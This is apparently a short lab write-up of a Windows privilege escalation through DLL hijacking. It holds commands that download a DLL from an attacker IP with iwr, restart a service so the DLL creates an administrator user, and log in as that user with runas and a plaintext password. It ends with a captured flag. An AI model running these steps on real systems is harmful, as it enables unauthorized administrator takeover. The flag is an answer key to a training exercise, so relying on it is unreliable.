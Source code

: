 # Go to victim Documents folder
PS C:\Users\steve\Documents> iwr -uri http://192.168.45.178/myDLL.dll -Outfile myDLL.dll

# Just to confirm dave2 is not exist in the current system user db 
net user

# Restart BetaService to load the DLL file
PS C:\Users\steve\Documents> Restart-Service BetaService

# Check if dave2 user is created and is inside the administrators group
PS C:\Users\steve\Documents> net user
PS C:\Users\steve\Documents> net localgroup administrators

# Privilges escalation to dave2
PS C:\Users\steve\Documents> runas /user:dave2 cmd
Enter the password for dave2: password123!

# Troubleshoot unable to access daveadmin Directory
PS C:\Users\steve\Documents> start-process PowerShell -verb runas

# Inside the GUI, use dave2 credentials

PS C:\Users\daveadmin\Desktop>type flag.txt
OS{d46faa341bb0dc95fa0357890a98b920}
